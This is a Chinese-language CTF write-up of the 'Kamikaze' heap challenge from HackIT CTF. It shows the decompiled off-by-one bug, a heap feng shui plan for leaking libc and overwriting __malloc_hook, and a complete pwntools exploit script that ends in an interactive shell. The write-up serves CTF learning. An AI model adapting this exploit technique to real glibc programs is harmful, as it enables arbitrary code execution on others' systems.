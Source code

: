 ```yaml
---
title: Kamikaze
date: 2018-10-20 23:37:37
tags: FengShui heap pwn
layout: post
---
```

heap fengshui
hackit ctf kamikaze
<!--more-->

# Start
Kamikaze做完之后我想Kamikaze......
感觉这题主要烦在利用难
做完之后收获挺大，堆风水思路很重要。。。

在风水先生的路上又前进了一步
#  分析
主要结构体
```arm
00000000
00000000 song            struc ; (sizeof=0x28, mappedto_6)
00000000 weight          dq ?
00000008 stanza          dq ?                    ; offset
00000010 next            dq ?                    ; offset
00000018 hook            dq ?
00000020 hook2           dq ?
00000028 song            ends
```

主要漏洞点
```arm
unsigned __int64 kamimaze()
{
  int i; // [rsp+Ch] [rbp-34h]
  int wei; // [rsp+10h] [rbp-30h]
  int seed; // [rsp+14h] [rbp-2Ch]
  song *ptr; // [rsp+18h] [rbp-28h]
  char buf; // [rsp+20h] [rbp-20h]
  unsigned __int64 v6; // [rsp+28h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  printf("Enter song weight: ");
  read(0, &buf, 4uLL);
  wei = atoi(&buf);
  ptr = song_list;
  if ( song_list )
  {
    while ( ptr->weight != wei )
    {
      if ( !ptr->next )
      {
        puts("Couldn't find the song");
        exit(0);
      }
      ptr = ptr->next;
    }
    printf("Enter seed: ", &buf);
    read(0, &buf, 4uLL);
    seed = atoi(&buf);
    if ( seed <= 1 || seed > 0xE )
      exit(0);
    for ( i = 0; i < strlen((const char *)&ptr->hook); ++i )// kamikaze off by one
      *((_BYTE *)&ptr->hook + i) ^= seed;
  }
  else
  {
    puts("You need to create a song first");
  }
  return __readfsqword(0x28u) ^ v6;
}
```

hook处用的是read，kamikaze处用的是strlen所以只要读满hook域然后用strlen就可以缩放size位
# 利用思路
* 只能使用fastbin....泄露不了libc
* 先用off by one 缩小topchunk 
* free一堆chunk进fast bin
* 使得topchunk<0x30
* 这时候会把fastbin里的chunk整合放入unsorted bin
* 泄露libc
* 如法炮制放大unsorted bin 造成overlap
* malloc完unsortedbin malloc topchunk之后利用overlap做uaf
* fastbin atk 写 __mallo_chook 
* free触发printerr

坑点:
* topchunk 最高字节恰好0x02用0x02去缩小(好巧)
* 链表结构常常做着做着被破坏。。
* leak的时候按照index而不是weight
* 为啥用的都是fgets，calloc...
* overlap的时候注意风水。。。（我tm调了一天。。）
* 记得先想好再去调。。。策略很重要

# EXP
```python
from pwn import *
def cmd(c):
	p.readuntil(">> ")
	p.sendline(str(c))
def add(weight,size,stanza,hook="".ljust(0x10,' ')):
	cmd(1)
	p.sendlineafter("Enter the weight of the song: ",str(weight))
	p.sendlineafter("Enter size of the stanza: ",str(size))
	p.sendlineafter("Enter the stanza: ",stanza)
	p.sendafter("Leave a short hook for it too: ",hook)
def edit(weight,stanza):
	cmd(2)
	p.sendlineafter("Enter song weight: ",str(weight))
	p.sendafter("Enter new stanza: ",stanza)
def free(weight):
	cmd(4)
	p.sendlineafter("Enter song weight: ",str(weight))
def show(idx):
	cmd(5)
	p.sendlineafter("Enter song index: ",str(idx))
def kamikaze(weight,seed=2):
	cmd(3)
	p.sendlineafter("Enter song weight: ",str(weight))
	p.sendlineafter("Enter seed: ",str(seed))
	
#context.log_level="debug"
p=process("./kamikaze")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(256,0x20,"")#head
add(1,0x70,"")
add(2,0x20,"")
free(1)
free(2)
add(3,0x70,"")
add(4,0x20,"","A"*0x10)
kamikaze(4)
for x in range(5,35):
	add(x,0x28,"")
add(36,0x70,"")
for x in range(5,35):
	free(x)
add(36,0x70,"")#0x0000555555757d70
add(37,0x70,"")

for x in range(5,29):
	add(x,0x28,"")

free(37)
free(28)

add(39,0x70,"")
add(40,0x28,"","C"*0x10)

kamikaze(40,4)
#                  top: 0x555555757de0 (size : 0x20) 
#       last_remainder: 0x555555757af0 (size : 0x360) 
#            unsortbin: 0x555555757af0 (size : 0x360)
#free(36)
#free(4)
#add(41,0x70,"")#0x0000555555757cf0
#add(42,0x28,p64(0xdeaddead))

add(43,0x58,"")
add(44,0x40,"")
add(45,0x70,"")

show(3)
p.readuntil("Weight: ")
base=int(p.readline(),16)-(0x7ffff7dd1b78-0x00007ffff7a0d000)
log.warning(hex(base))
libc.address=base
free(3)
add(46,0x28,"")
add(47,0x28,"")
add(48,0x28,"")
add(49,0x28,p64(0)+p64(0x21001))
add(50,0x60,"")
add(51,0x60,"")
add(52,0x60,"")
add(53,0x30,"")
free(50)
cmd(1)
p.sendlineafter("Enter the weight of the song: ",str(54))
p.sendlineafter("Enter size of the stanza: ",str(0x58))
p.sendafter("Enter the stanza: ","\x00"*0x48+p64(0x71)+p64(libc.symbols['__malloc_hook']-35))
free(46)
free(47)
one=base+0xf02a4

add(55,0x30,p64(0)+p64(0x0000000000020fa1))
add(55,0x30,"")
add(56,0x68,"")
add(57,0x68,"A"*19+p64(one))
free(0x39)
#gdb.attach(p)
p.interactive("nier>")

```

加注释是这辈子都不可能加注释的